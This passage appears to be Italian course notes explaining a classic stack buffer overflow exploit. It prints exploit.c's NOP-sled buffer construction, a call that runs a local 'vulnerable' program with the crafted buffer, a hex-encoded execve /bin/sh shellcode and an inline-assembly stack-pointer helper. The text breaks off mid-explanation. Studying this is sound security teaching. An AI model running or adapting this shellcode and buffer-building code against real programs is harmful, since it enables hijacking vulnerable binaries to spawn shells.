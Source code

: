 ```c
		*(addr_ptr++) = ret;

	/* fill first half of buffer with NOPs */
	for(i=0; i<BUFFERSIZE/2; i++)
		buffer[i] = '\x90';

	/* insert shellcode in the middle */
	ptr = buffer + ((BUFFERSIZE/2) - (strlen(lunixshell)/2));
	for(i=0; i<strlen(lunixshell); i++)
		*(ptr++) = lunixshell[i];

	/* call the vulnerable program passing our exploit buffer as the argument */

	buffer[BUFFERSIZE-1] = 0;
	execl("./vulnerable", "vulnerable", buffer, 0);

	return 0;
}
```

Questo programma, si crea l'input necessario per causare l'iniezione della shellcode e sarà lui a invocare `vulnerable`(il programma vulnerabile) e gli passerà quel input. 
- l'input che dà è il nuovo buffer che contiene dentro la sua shellcode.

***Vediamo ora il programma `exploit.c` che cosa fa. Come fa a costruirsi il buffer?***
1. **Costruisce la shellcode**
```c
char lunixshell[] = "\xeb\x1d\x5e\x29\xc0\x88\x46\x07\x89\x46\x0c\x89\x76\x08\xb0"
                    "\x0b\x87\xf3\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x29\xc0\x40\xcd"
                    "\x80\xe8\xde\xff\xff\xff/bin/sh";
```

E' una notazione che mi fa capire che ua c'è un shellcode. Questi byte strani mi dicono che c'è un byte in codifica esadecimali.
- un byte ha 8 bit. In esadecimale, io ho due cifre(ognuna da 4bit) per rappresentare un byte, quindi eb --> 14 11 --> 1110 1011

Supponiamo che la shellcode funzioni. Quindi *proviamo a fare in modo che IP punti a questa shellcode*.

2. **Funzione `sp`**
```c
unsigned long sp(void)
{
	__asm__("movl %esp, %eax");
}
```
`__asm__` è una direttiva che vien data al compilatore. Il compilatore comprende che quell'istruzione deve essere interpretata come istruzione `assembly`. In questo caso
- `esp` che punta alla testo dello stack, *e la copia in `eax`*
- Per come funziona la convenzione delle chiamate, tu quando fai una `jal funzione, ra`, il valore di ritorno della funzione verrà salvata in `eax`. 

QUINDI in questo caso:
  